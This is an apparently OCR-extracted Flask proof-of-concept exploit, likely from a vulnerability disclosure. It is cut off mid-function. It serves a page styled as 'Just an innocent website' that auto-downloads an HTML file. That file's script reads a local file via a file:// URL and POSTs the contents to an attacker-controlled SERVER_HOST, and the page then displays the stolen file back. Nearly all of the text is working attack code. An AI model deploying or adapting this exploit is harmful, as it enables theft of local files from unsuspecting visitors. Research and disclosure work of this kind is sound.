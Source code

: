 ```python
@app.route('/', methods=["GET"])
def home():
    return f"""
<!DOCTYPE html>
<html>
	<head>
		<meta charset="UTF-8">
		<title>PoC</title>
		<style>
			body {{
				font-family: monospace;
				margin: 20px;
				background-color: #f5f5f5;
			}}
			.code-container {{
				background: white;
				border: 1px solid #ddd;
				border-radius: 4px;
				padding: 15px;
				overflow-x: auto;
				white-space: pre;
				box-shadow: 0 1px 3px rgba(0,0,0,0.1);
			}}
		</style>
	</head>
	<body>
		<h1>Just an innocent website over here ☺️ </h1>
		<script defer>
			setTimeout(() => {{
				const blob = new Blob([`
				<script>
					fetch("file://{LEAKED_FILE_NAME}").then(r => r.text()).then(r => {{
						fetch("{SERVER_HOST}", {{
							method: "POST",
							body: r
						}}).then(_ => window.close());
					}})
				</s`, 'cript>'], {{
						type: "text/html",
				}});
				const link = document.createElement('a');
				link.hidden = true;
				link.href = URL.createObjectURL(blob);
				link.download = 'index.html';
				document.body.appendChild(link);
				link.click();
			}}, 1000);
			setTimeout(() => {{
				window.open("{DOWNLOADED_FILE_NAME}", "_blank", "");
			}}, 2000);
			let interval = setInterval(() => {{
				fetch("/content").then(r => r.text()).then(r => {{
					if (r !== "") {{
						const heading = document.createElement('h2');
						heading.innerHTML = "This is the <code>{LEAKED_FILE_NAME}</code> content isn't it 😜";
						document.body.appendChild(heading);
						const file = document.createElement('div');
						file.className = 'code-container';
						file.textContent = r;
						document.body.appendChild(file)
						clearInterval(interval);
					}}
```